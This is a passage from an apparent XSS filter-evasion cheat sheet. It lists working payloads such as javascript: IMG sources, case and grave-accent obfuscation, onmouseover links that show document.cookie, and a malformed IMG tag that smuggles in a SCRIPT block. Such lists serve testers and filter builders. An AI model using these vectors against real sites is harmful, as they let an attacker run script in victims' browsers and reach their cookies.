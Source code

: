 ## <span id="No_quotes_and_no_semicolon" class="mw-headline">No quotes and no semicolon</span>

<pre>&lt;IMG SRC=javascript:alert('XSS')&gt;
</pre>

## <span id="Case_insensitive_XSS_attack_vector" class="mw-headline">Case insensitive XSS attack vector</span>

<pre>&lt;IMG SRC=JaVaScRiPt:alert('XSS')&gt;
</pre>

## <span id="HTML_entities" class="mw-headline">HTML entities</span>

The semicolons are required for this to work:

<pre>&lt;IMG SRC=javascript:alert("XSS")&gt;
</pre>

## <span id="Grave_accent_obfuscation" class="mw-headline">Grave accent obfuscation</span>

If you need to use both double and single quotes you can use a grave accent to encapsulate the JavaScript string &#8211; this is also useful because lots of cross site scripting filters don&#8217;t know about grave accents:

<pre>&lt;IMG SRC=`javascript:alert("RSnake says, 'XSS'")`&gt;
</pre>

## <span id="Malformed_A_tags" class="mw-headline">Malformed A tags</span>

Skip the HREF attribute and get to the meat of the XXS&#8230; Submitted by David Cross ~ Verified on Chrome

<a onmouseover=&#8221;alert(document.cookie)&#8221;>xxs link</a>

or Chrome loves to replace missing quotes for you&#8230; if you ever get stuck just leave them off and Chrome will put them in the right place and fix your missing quotes on a URL or script.

<a onmouseover=alert(document.cookie)>xxs link</a>

## <span id="Malformed_IMG_tags" class="mw-headline">Malformed IMG tags</span>

Originally found by Begeek (but cleaned up and shortened to work in all browsers), this XSS vector uses the relaxed rendering engine to create our XSS vector within an IMG tag that should be encapsulated within quotes. I assume this was originally meant to correct sloppy coding. This would make it significantly more difficult to correctly parse apart an HTML tag:

<pre>&lt;IMG """&gt;&lt;SCRIPT&gt;alert("XSS")&lt;/SCRIPT&gt;"&gt;
</pre>
